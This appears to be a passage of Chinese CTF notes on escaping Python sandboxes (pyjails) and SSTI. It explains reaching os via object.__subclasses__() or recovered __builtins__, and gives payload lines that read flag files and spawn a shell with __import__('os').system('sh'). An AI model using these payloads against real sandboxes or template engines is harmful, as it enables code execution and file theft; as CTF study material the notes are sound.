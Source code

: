 ```
一种是object.__subclasses__()`中找到`os`模块中的类（一般是`<class 'os._wrap_close'>`），另一种是先拿到`__builtins__`，再`__import__('os').system('sh')
```

RCE的payload模板可以通过chrome中hackbar插件SSTI的Show subclasses with tuple拿到；

利用第一种方法时，注意本地环境和远程环境中`os`模块中的类的索引（偏移量）可能不相同；



如上面所介绍的所有默认函数，如`str`、`chr`、`ord`、`dict`、`dir`等。在pyjail的沙箱中，往往`__builtins__`被置为`None`，因此我们不能利用上述的函数。所以一种思路就是我们可以先通过类的基类和子类拿到`__builtins__`，再`__import__('os').system('sh')`进行RCE；



读取文件

```
__import__('os').system('cat ./flag.txt')
print(open('/flag.txt').read())
```

get交互式shell

```
__import__('os').system('sh')
```

### 参考文档

https://zhuanlan.zhihu.com/p/578966149

https://lazzzaro.github.io/2020/08/21/misc-%E6%B2%99%E7%9B%92%E9%80%83%E9%80%B8/index.html

https://book.hacktricks.xyz/generic-methodologies-and-resources/python/python-internal-read-gadgets

